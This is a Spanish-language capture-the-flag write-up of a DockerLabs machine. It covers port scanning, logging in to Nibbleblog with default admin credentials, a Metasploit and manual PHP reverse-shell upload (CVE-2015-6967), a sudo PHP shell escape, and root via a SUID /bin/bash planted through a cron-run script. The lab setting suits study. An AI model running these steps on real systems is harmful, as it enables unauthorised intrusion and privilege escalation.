  
#Writeups #VeryEasy #DockerLabs


Empezamos con un escaneo de todos los puertos:
```bash
❯ sudo nmap -sS -p- -Pn --min-rate 5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-28 15:43 CEST
Nmap scan report for 172.17.0.2
Host is up (0.0000060s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.08 seconds
```

Encontramos solo un servicio http, vamos a hacer un escaner mas profundo 

```bash
❯ sudo nmap -p80 -sCV 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-28 15:44 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000028s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.93 seconds
```

Parece que aloja una web con Apache, vamos a ver si vemos algo en la web y si no, hacemos una búsqueda de directorios con gobuster:



En la web no se ve nada raro pero viendo el código fuente veo esto:



Hay referencias a un directorio /nibbleblog, vamos a ver que hay:



En el blog nos aparece un directorio de admin.php así que hacemos click y nos lleva a esta web:


aquí busque credenciales por defecto de nibbleblog y me encontré mucho admin:admin incluso por otras maquinas de otros dominios así que intente ponerlo y me dio acceso al panel:



Vamos a  la opcion de settings a la izquierda de la web, y en el footer de la pagina vemos la versión de nibble



Buscando vemos que hay un exploit que podemos usar con metasploit, encendemos metasploit y probamos:

```bash
❯ msfconsole
Metasploit tip: Use help <command> to learn more about any command
                                                  
                                   ____________
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $a,        |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $S`?a,     |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%__%%%%%%%%%%|       `?a, |%%%%%%%%__%%%%%%%%%__%%__ %%%%]
 [% .--------..-----.|  |_ .---.-.|       .,a$%|.-----.|  |.-----.|__||  |_ %%]
 [% |        ||  -__||   _||  _  ||  ,,aS$""`  ||  _  ||  ||  _  ||  ||   _|%%]
 [% |__|__|__||_____||____||___._||%$P"`       ||   __||__||_____||__||____|%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| `"a,       ||__|%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%|____`"a,$$__|%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%        `"$   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]


       =[ metasploit v6.3.44-dev                          ]
+ -- --=[ 2376 exploits - 1232 auxiliary - 416 post       ]
+ -- --=[ 1388 payloads - 46 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

sea[msf](Jobs:0 Agents:0) >> search nibbleblog

Matching Modules
================

   #  Name                                       Disclosure Date  Rank       Check  Description
   -  ----                                       ---------------  ----       -----  -----------
   0  exploit/multi/http/nibbleblog_file_upload  2015-09-01       excellent  Yes    Nibbleblog File Upload Vulnerability


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/nibbleblog_file_upload

[msf](Jobs:0 Agents:0) >> use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/http/nibbleblog_file_upload) >> options

Module options (exploit/multi/http/nibbleblog_file_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       The password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:p
                                         ort][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com
                                         /docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the web application
   USERNAME                    yes       The username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.217    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Nibbleblog 4.0.3


View the full module info with the info, or info -d command.

[msf](Jobs:0 Agents:0) exploit(multi/http/nibbleblog_file_upload) >> set rhosts 172.17.0.2
rhosts => 172.17.0.2
[msf](Jobs:0 Agents:0) exploit(multi/http/nibbleblog_file_upload) >> set targeturi /nibbleblog
targeturi => /nibbleblog
[msf](Jobs:0 Agents:0) exploit(multi/http/nibbleblog_file_upload) >> set username admin
username => admin
[msf](Jobs:0 Agents:0) exploit(multi/http/nibbleblog_file_upload) >> set password admin
password => admin
[msf](Jobs:0 Agents:0) exploit(multi/http/nibbleblog_file_upload) >> run

[*] Started reverse TCP handler on 192.168.1.217:4444 
[-] Exploit aborted due to failure: unknown: Unable to upload payload.
[*] Exploit completed, but no session was created.
[msf](Jobs:0 Agents:0) exploit(multi/http/nibbleblog_file_upload) >>
```

Nos da error, vemos bien el exploit en ExploitDb y nos infromamos por mas sitios y vemos que se necesita tener activado el plugin MyImage, asi que vamos a plugins y lo instalamos y le damos a save



Tras leer el exploit decidí hacerlo manualmente, os dejo el [CVE 2015-6967](https://www.exploit-db.com/exploits/38489) para que lo consultéis también, basicamente se logea con las credenciales que le damos, sube un archivo imagen.php que es una reverse shell y ejecuta el archivo en la ruta /content/private/plugins/my_image/

Insertamos el archivo .php, para acceder a este paneñl vamos a plugins y en my image le damos a isntall:



En seleccionar archivo subimos una reverseshell.php, podeis conseguir el payload en la web [RevShells](https://www.revshells.com/)

DAmos a save changes y esperamos la respuesta:



nos dirigimos a la url http://172.17.0.2/nibbleblog/content/

Y desde ahí podemos acceder al .php de una forma mas visual, después de que nos salga el listado de directorios solo tenemos que ir a private/plugins/my_image y nos saldra el .php subido:



Iniciamos net cat a la escucha del puerto que hayamos puesto en la reverse shell y le damos click al php:



Obtenemos acceso:

```bash
❯ nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.1.217] from (UNKNOWN) [172.17.0.2] 59978
Linux 95e336f4d2b4 6.5.0-13parrot1-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.5.13-1parrot1 (2023-12-19) x86_64 x86_64 x86_64 GNU/Linux
 09:27:49 up  2:17,  0 users,  load average: 1.73, 1.56, 1.43
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (25): Inappropriate ioctl for device
bash: no job control in this shell
www-data@95e336f4d2b4:/$ 
```

Enumeramos los permisos Sudo:

```bash
www-data@95e336f4d2b4:/$ sudo -l
sudo -l
Matching Defaults entries for www-data on 95e336f4d2b4:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on 95e336f4d2b4:
    (chocolate) NOPASSWD: /usr/bin/php
www-data@95e336f4d2b4:/$ 
```

Y vemos que podemos hacer un movimiento lateral al ususario chocolate, vamos a [GTFOBINS: Sudo PHP](https://gtfobins.github.io/gtfobins/php/#sudo) y ponemos el comando personalizado a nuestro caso:



vamos a hacer un tratamiento de la tty:

```bash
script /dev/null -c bash
# Dale a CTRL + Z y aunque parezca que se vaya la consola introduce los siguientes comandos:

stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
#Aqui ajustamos las filas y columnas

stty size NUM_FILAS NUM_COLUMNAS

stty rows NUM_FILAS columns NUM_COLUMNAS
```


```bash
chocolate@95e336f4d2b4:/$ stty rows 38 columns 190
chocolate@95e336f4d2b4:/$ ps -faux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.0   2616  1536 ?        Ss   08:06   0:00 /bin/sh -c service apache2 start && while true; do php /opt/script.php; sleep 5; done
root          25  0.0  0.2 201396 21976 ?        Ss   08:06   0:00 /usr/sbin/apache2 -k start
www-data      38  0.0  0.1 201620 12768 ?        S    08:06   0:00  \_ /usr/sbin/apache2 -k start
www-data    2689  0.0  0.0   2616  1536 ?        S    09:56   0:00  |   \_ sh -c uname -a; w; id; bash -i
www-data    2693  0.0  0.0   4116  3328 ?        S    09:56   0:00  |       \_ bash -i
root        2718  0.0  0.0   5012  3456 ?        S    09:57   0:00  |           \_ sudo -u chocolate /usr/bin/php -r system('/bin/sh');
chocola+    2719  0.0  0.2  67024 20136 ?        S    09:57   0:00  |               \_ /usr/bin/php -r system('/bin/sh');
chocola+    2720  0.0  0.0   2616  1408 ?        S    09:57   0:00  |                   \_ sh -c /bin/sh
chocola+    2721  0.0  0.0   2616  1536 ?        S    09:57   0:00  |                       \_ /bin/sh
chocola+    2730  0.0  0.0   2644  1920 ?        S    09:57   0:00  |                           \_ script /dev/null -c bash
chocola+    2731  0.0  0.0   4116  3328 pts/0    Ss   09:57   0:00  |                               \_ bash
chocola+    2819  0.0  0.0   2644  1792 pts/0    S+   10:00   0:00  |                                   \_ script /dev/null -c bash
chocola+    2820  0.0  0.0   4248  3072 pts/1    Ss   10:00   0:00  |                                       \_ bash
chocola+    2895  0.0  0.0   5900  2816 pts/1    R+   10:03   0:00  |                                           \_ ps -faux
www-data      39  0.0  0.2 202100 17888 ?        S    08:06   0:00  \_ /usr/sbin/apache2 -k start
www-data      40  0.0  0.2 202020 18272 ?        S    08:06   0:00  \_ /usr/sbin/apache2 -k start
www-data      41  0.0  0.2 202020 18144 ?        S    08:06   0:00  \_ /usr/sbin/apache2 -k start
www-data      42  0.0  0.1 201764 13408 ?        S    08:06   0:00  \_ /usr/sbin/apache2 -k start
www-data    1783  0.0  0.2 201900 17504 ?        S    09:19   0:00  \_ /usr/sbin/apache2 -k start
www-data    1786  0.0  0.1 201608 10196 ?        S    09:19   0:00  \_ /usr/sbin/apache2 -k start
root        2894  0.0  0.0   2516  1280 ?        S    10:03   0:00 sleep 5
chocolate@95e336f4d2b4:/$ ls -l /opt/script.php
-rw-r--r-- 1 chocolate chocolate 59 May  7 13:55 /opt/script.php
chocolate@95e336f4d2b4:/$ echo '<?php exec("chmod u+s /bin/bash"); ?>' > /opt/script.php
chocolate@95e336f4d2b4:/$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

Vemos un proceso que se hace en /opt/script.php y ademas pertenece a chocolate pero se ejecuta como el usuario root, asi que vamos a modificar ese php  para que nos de una shell, y esperamos un rato a ver si obtenemos root:

```bash
chocolate@95e336f4d2b4:/$ echo '<?php exec("chmod u+s /bin/bash"); ?>' > /opt/script.php
chocolate@95e336f4d2b4:/$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

vemos que el archivo ahora pertenece a root, hacemos un whoami y ya hemos obtenido root:



